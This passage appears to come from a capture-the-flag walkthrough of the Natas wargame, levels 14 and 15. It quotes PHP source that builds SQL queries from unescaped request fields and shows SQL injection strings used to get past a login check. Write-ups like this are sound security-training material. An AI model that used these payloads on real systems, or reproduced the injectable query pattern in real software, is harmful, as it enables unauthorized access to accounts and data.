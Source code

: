 Awesome, not done this for a while

`$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";` 

"' OR 1=1;--

```
Warning: mysql_num_rows() expects parameter 1 to be resource, boolean given in /var/www/natas/natas14/index.php on line 24
Access denied!
```

Took me a while playing around with the POST request to get the right value.

`username=natas15&password="*"`



## Level 15

We've been given a means to search for "users", via an input form. Let's take a look at the source code and see if we can't find the vulnerability.

```
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?> 
```

